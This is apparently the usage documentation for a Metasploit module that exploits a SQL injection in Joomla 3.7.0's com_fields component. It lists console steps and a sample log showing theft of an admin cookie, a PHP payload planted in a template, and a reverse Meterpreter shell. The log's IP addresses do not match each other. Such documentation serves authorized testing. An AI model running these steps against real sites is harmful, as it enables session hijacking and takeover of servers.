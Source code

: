 ## Vulnerable Application

  This module exploits a SQL Injection vulnerability in the 'com_fields' component which was introduced to the core of Joomla in version 3.7.0.
  With the SQLi, it's possible to enumerate cookies of administrative users, and hijack one of their sessions. If no administrators are authenticated, the RCE portion will not work. If a session hijack is available, one of the website templates is identified, and our payload is added to the template as a new file, and then executed.

## Verification


  1. Start msfconsole
  2. Do: `use exploit/unix/webapp/joomla_comfields_sqli_rce`
  3. Do: `set rhost [ip]`
  4. Do: `set tageturi [uri]`
  5. Do: `exploit`
  6. Get a shell

## Scenarios

### Joomal 3.7.0 on Ubuntu 16.04 with another user authenticated as an administrator

```
msf > use exploit/unix/webapp/joomla_comfields_sqli_rce 
msf exploit(joomla_comfields_sqli_rce) > set rhost 1.2.3.4
rhost => 1.2.3.4
msf exploit(joomla_comfields_sqli_rce) > set TARGETURI joomla_demo
TARGETURI => joomla_demo
msf exploit(joomla_comfields_sqli_rce) > exploit

[*] Started reverse TCP handler on 1.2.3.4:4444 
[*] 192.168.0.15:80 - Retrieved table prefix [ l6crq ]
[*] 192.168.0.15:80 - Retrieved admin cookie [ 0nva1b7d2re73dojsakmq5gqs5 ]
[*] 192.168.0.15:80 - Retrieved unauthenticated cookie [ b41f947841f591f08bb4203036a1b7d3 ]
[+] 192.168.0.15:80 - Successfully authenticated as Administrator
[*] 192.168.0.15:80 - Creating file [ 4duqOQWjqycE1.php ]
[*] 192.168.0.15:80 - Following redirect to [ /joomla_demo/administrator/index.php?option=com_templates&view=template&id=503&file=LzRkdXFPUVdqcXljRTEucGhw ]
[*] 192.168.0.15:80 - Token [ cdec8f07a07e2810437f8f8a148b7628 ] retrieved
[*] 192.168.0.15:80 - Template path [ /templates/beez3/ ] retrieved
[*] 192.168.0.15:80 - Insert payload into file [ 4duqOQWjqycE1.php ]
[*] 192.168.0.15:80 - Payload data inserted into [ 4duqOQWjqycE1.php ]
[*] 192.168.0.15:80 - Executing payload
[*] Sending stage (37543 bytes) to 1.2.3.4
[*] Meterpreter session 1 opened (192.168.0.24:4444 -> 1.2.3.4:49586) at 2018-03-06 20:20:22 -0500
[+] Deleted 4duqOQWjqycE1.php

meterpreter > sysinfo
Computer    : luisco-VirtualBox
OS          : Linux luisco-VirtualBox 4.10.0-38-generic #42~16.04.1-Ubuntu SMP Tue Oct 10 16:32:20 UTC 2017 x86_64
Meterpreter : php/linux

```
